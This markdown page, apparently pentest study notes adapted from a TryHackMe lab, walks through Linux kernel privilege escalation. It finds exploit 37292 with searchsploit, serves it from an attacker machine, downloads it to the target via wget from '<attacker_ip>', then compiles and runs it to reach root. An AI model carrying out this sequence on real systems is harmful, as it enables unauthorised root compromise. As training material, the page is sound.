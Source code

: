 # Kernel exploit

> The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.

### Example

Given that a remote shell is gained on a Linux Ubuntu machine with a low-privileged user. A few important information can be gathered from the enumeration commands discussed in the previous section under `Enumeration`.

1. Gather information on the kernel version

```bash
$ cat /proc/version
Linux version 3.13.0-24-generic ...

# OR

$ uname -a
Linux ... 3.13.0-24-generic ...
```

2. Search for vulnerabilities

**From the attacker machine**

```bash
$ searchsploit linux kernel 3.13

...
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'ove | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'ove | linux/local/37293.txt
...
```

Or directly from Exploit-DB:

{% embed url="https://www.exploit-db.com/exploits/37292" %}

**Look for the exploit code and run a Python web server to serve the content**

```bash
$ find / -path '*linux/local/37292.c' 2>/dev/null
/usr/share/exploitdb/exploits/linux/local/37292.c

$ cd /usr/share/exploitdb/exploits/linux/local

...linux/local$ python3 -m http.server 8888
```

3. Navigate to a directory with write and execute permissions for all such as `/tmp`

**From the target machine**

```bash
$ find / -perm 003 -type d 2>/dev/null
/tmp
...

$ cd /tmp
$ wget http://<attacker_ip>:<port>/37292.c
...

$ gcc 37292.c -o 37292
$ ./37292.out

...

root# whoami
root

root# ...
```



Adapted from task 5 of the TryHackMe practice room:

{% embed url="https://tryhackme.com/r/room/linprivesc" %}
